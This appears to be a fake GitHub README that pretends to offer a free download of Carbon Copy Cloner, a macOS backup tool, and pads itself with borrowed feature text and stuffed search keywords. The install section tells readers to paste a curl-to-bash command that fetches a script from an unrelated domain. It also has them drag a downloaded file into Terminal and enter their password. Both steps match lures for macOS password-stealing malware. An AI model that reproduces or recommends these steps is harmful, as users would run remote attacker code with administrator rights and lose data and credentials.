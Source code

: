 # 🧩 Carbon Copy Cloner for Mac – The Ultimate macOS Backup & Cloning Tool

![Carbon Copy Cloner Hero](https://bombich.com/img/site/hero-narrow.jpg)

---

## 📦 Download

[![⬇️ Download Mari Mac](https://img.shields.io/badge/Download-Carbon%20Copy%20Cloner-blue?style=for-the-badge&logo=apple)](https://carbon-copy-cloner-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Carbon Copy Cloner?

**Carbon Copy Cloner** (often abbreviated as CCC) is a powerful macOS utility developed by Bombich Software that enables users to create exact, bootable backups of their Mac systems. Whether you're migrating to a new Mac, replacing a drive, or simply protecting your data, CCC provides a reliable and flexible solution.

CCC goes beyond basic backups—it's a comprehensive backup toolkit. With its intuitive interface, users can easily define backup tasks, schedule them to run automatically, and monitor the results with detailed logs. Its smart update technology ensures only changed files are copied, reducing backup times.

The tool supports external drives, network volumes, APFS snapshots, and even encrypted disks. It also provides detailed control over file filtering, safety net retention, and disk verification. Whether you're a home user, a creative professional, or a system admin, Carbon Copy Cloner is trusted across the macOS ecosystem for its reliability and speed.

---

![Carbon Copy Cloner Filters](https://bombich.com/img/icons/filter.jpg)

---

## ✨ Features

- 🔁 **Bootable Backups** – Create exact replicas of your system that you can boot from  
- 🗓 **Scheduled Tasks** – Automate backups daily, weekly, or whenever you need  
- 🧠 **Smart Updates** – Copies only changed files to speed up backups  
- 💾 **External Drive & Network Support** – Works with USB, Thunderbolt, and NAS  
- 🔐 **Encryption Support** – Clone and back up to encrypted APFS volumes  
- 🧹 **SafetyNet** – Keeps older versions of modified/deleted files  
- 📊 **Detailed Logs & Alerts** – Know exactly what was copied and when  
- 💡 **Simple UI** – Easy for beginners, powerful for pros

---

## 💻 System Requirements

- macOS 10.15 Catalina or newer (including macOS 14 Sonoma)  
- Apple Silicon (M1/M2/M3) and Intel support  
- At least one external or additional volume for backup

---

## 🔍 Keywords  
carbon copier, carbon copy cloner mac, carbon cloner, carbon clone mac, carbon copy cloner app, carbon copy for mac, carboncloner, cc cloner mac, carbon copy cloner download, carbon copy software, carbon copy cloner 6, carbon copy cloner software, carbon cloner download, carbon cloner mac free, carbon copy cloner 2, carbon copy cloner 3, carbon copy cloner 4, carbon copy cloner 5, carbon copy cloner free download, carbon copy cloner mac free download, carbon copy cloner mac free, carbon copy cloner m1, carbon copy cloner full, carbon copy cloner free, carbon copy cloner black friday, carbon copy cloner, carbon backup mac, carbon cloner mac download, carbon clone for mac, carbon clone copier
